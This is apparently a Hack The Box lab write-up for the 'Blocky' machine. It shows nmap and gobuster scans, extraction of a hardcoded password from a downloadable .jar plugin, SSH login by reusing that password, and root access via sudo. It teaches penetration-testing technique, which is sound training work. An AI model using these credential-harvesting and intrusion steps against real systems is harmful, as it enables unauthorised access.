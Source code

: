 <center><h1>Blocky</h1></center>
<br>
<center><h3>Summary</h3></center>
<br>
- Get credentials from a .jar file located in the <b>/plugins</b> directory
- Use the password found to ssh in the system as the user notch
- Run <b>sudo -l</b> to see that we can run commands as sudo
<br><br>

First we start with an nmap scan.
```
# Nmap 7.70 scan initiated Fri May 31 12:13:39 2019 as: nmap -sV -sC -T4 -oN BlockyNmap 10.10.
10.37
Nmap scan report for 10.10.10.37
Host is up (0.036s latency).
Not shown: 996 filtered ports
PORT     STATE  SERVICE VERSION
21/tcp   open   ftp     ProFTPD 1.3.5a
22/tcp   open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp   open   http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.8
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: BlockyCraft &#8211; Under Construction!
8192/tcp closed sophos
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri May 31 12:13:52 2019 -- 1 IP address (1 host up) scanned in 13.20 seconds
```
<br>
So there are a few ports open. FTP wont tell us much since we dont have any credentials to log in with. A simple search will tell you that SSH is not vulnerable. I don't know what sophos is so I am going to explore port 80 first. We are greeted with a wordpress page.

<center><img src="/htb/blocky/home.png"></center>
<br>

I look around and don't find much except for a post made by the user Notch. Next, I decide to run a gobuster
```
gobuster dir -u http://10.10.10.37 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,txt -t 20
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.37
[+] Threads:        20
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt
[+] Timeout:        10s
===============================================================
2019/09/16 15:04:36 Starting gobuster
===============================================================
/wiki (Status: 301)
/wp-content (Status: 301)
/index.php (Status: 301)
/wp-login.php (Status: 200)
/plugins (Status: 301)
/license.txt (Status: 200)
/wp-includes (Status: 301)
/javascript (Status: 301)
/wp-trackback.php (Status: 200)
```
<br>
Navigating to the <b>/plugins</b> directory, you will see two files. Lets download them both to our host

<center><img src="/htb/blocky/files.png"></center>

Both of the files are <b>.jar</b> files which means the contents need to be extracted. The command below will list the files inside the <b>.jar</b> file.

```
jar -tf BlockyCore.jar
```
<br>
we see that it lists a file
```
META-INF/MANIFEST.MF
com/myfirstplugin/BlockyCore.class
```
<br>
Lets extract that specific file.
```
jar xf BlockyCore.jar com/myfirstplugin/BlockyCore.class
```
Now to read the file we need to use the <b>javap</b> command.
```
javap -c com/myfirstplugin/BlockyCore.class
```
<br>
You should get the output below. If you read through the file you should see something like resembles credentials.
```
11: ldc           #18                 // String root <-----User
13: putfield      #20                 // Field sqlUser:Ljava/lang/String;
16: aload_0
17: ldc           #22                 // String 8YsqfCTnvxAUeduzjNSXe22 <-----Password
19: putfield      #24                 // Field sqlPass:Ljava/lang/String;
```
<br>
Now first thing I tried was logging into the wordpress site but that didnt work. Next I tried ssh but it didnt work with the user <b>root</b>. I tried to ssh again but this time using the user <b>notch</b> and password <b>8YsqfCTnvxAUeduzjNSXe22</b> and it worked.
```
root@kali: ssh notch@10.10.10.37

The authenticity of host '10.10.10.37 (10.10.10.37)' can't be established.
ECDSA key fingerprint is SHA256:lg0igJ5ScjVO6jNwCH/OmEjdeO2+fx+MQhV/ne2i900.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.37' (ECDSA) to the list of known hosts.
notch@10.10.10.37's password:
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Tue Jul 25 11:14:53 2017 from 10.10.14.230
notch@Blocky:~$
```
<br>
Now if we type <b>sudo -l</b> and enter the same password as before then you will see that we have sudo rights which means we can just grab both the user and root flags. The user flag is located at <b>/home/notch/user.txt</b> and the root is at <b>/root.root.txt</b>
<br><br><br>
